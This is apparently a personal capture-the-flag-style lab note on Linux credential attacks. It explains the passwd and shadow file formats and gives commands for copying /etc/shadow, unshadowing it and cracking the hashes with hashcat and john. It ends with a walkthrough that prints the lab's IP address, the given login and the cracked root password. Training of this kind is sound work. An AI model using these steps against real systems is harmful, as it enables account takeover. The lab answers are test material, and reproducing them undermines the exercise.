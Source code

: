
### Passwd File Format

>[! hint ] 
> An `x` in the password field means the password is stored in an encrypted format in the `/etc/shadow` file. 

| `cry0l1t3` | `:` | `x`           | `:` | `1000` | `:` | `1000` | `:` | `cry0l1t3,,,`      | `:` | `/home/cry0l1t3` | `:` | `/bin/bash` |
| ---------- | --- | ------------- | --- | ------ | --- | ------ | --- | ------------------ | --- | ---------------- | --- | ----------- |
| Login name |     | Password info |     | UID    |     | GUID   |     | Full name/comments |     | Home directory   |     | Shell       |

### Shadow File Format

>[! hint]
> If the password field contains a character, such as `!` or `*`, the user cannot log in with a Unix password. If the encrypted password field is empty then no password is required to login. 
>
> The encrypted password field also has the following format: - `$<type>$<salt>$<hashed>`

| `cry0l1t3` | `:` | `$6$wBRzy$...SNIP...x9cDWUxW1` | `:` | `18937`        | `:` | `0`         | `:` | `99999`     | `:` | `7`            | `:`               | `:`             | `:`    |
| ---------- | --- | ------------------------------ | --- | -------------- | --- | ----------- | --- | ----------- | --- | -------------- | ----------------- | --------------- | ------ |
| Username   |     | Encrypted password             |     | Last PW change |     | Min. PW age |     | Max. PW age |     | Warning period | Inactivity period | Expiration date | Unused |

#### Encryption Algorithms

- `$1$` – MD5
- `$2a$` – Blowfish
- `$2y$` – Eksblowfish
- `$5$` – SHA-256
- `$6$` – SHA-512

### Opasswd

>[! Note] 
> Located in `/etc/security/opasswd`, this file contains old passwords. It requires administrative rights to read. 

### Cracking Linux Credentials

#### Unshadow
```go
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

#### Cracking Unshadowed Credentials via Hashcat
```go
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

#### Cracking MD5 Hashes via Hashcat
```go
hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```

## Questions

#### IP
```go
10.129.218.247
```

#### Will's Credentials

Password:
```go
TUqr7QfLTLhruhVbCP
```

Username:
```go
will@inlanefreight.htb
```

1) Examine the target using the credentials from the user Will and find out the password of the "root" user. Then, submit the password as the answer.

SSH
```go
ssh wil@10.129.218.247
```

After logging you, I see there's a `.backups` directory that contains the passwd and shadow backup files:
![[Pasted image 20250517143733.png]]

Start a python server to host the files and grab them from your machine.

Once there, unshadow both files into a text file. This will create a /.john:
```go
unshadow passwd.bak shadow.bak > unshadowed_hashes.txt
```

Use the password resources provided and create password mutations:
```go
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

Crack the hashes with john, using the `mut_password.list` and the `unshadowed_hashes.txt`
```go
john --wordlist=mut_password.list unshadow_hashes.txt
```
![[Pasted image 20250517145036.png]]

##### Credentials Found

sam
```go
B@tm@n2022!
```

root
```go
J0rd@n5
```

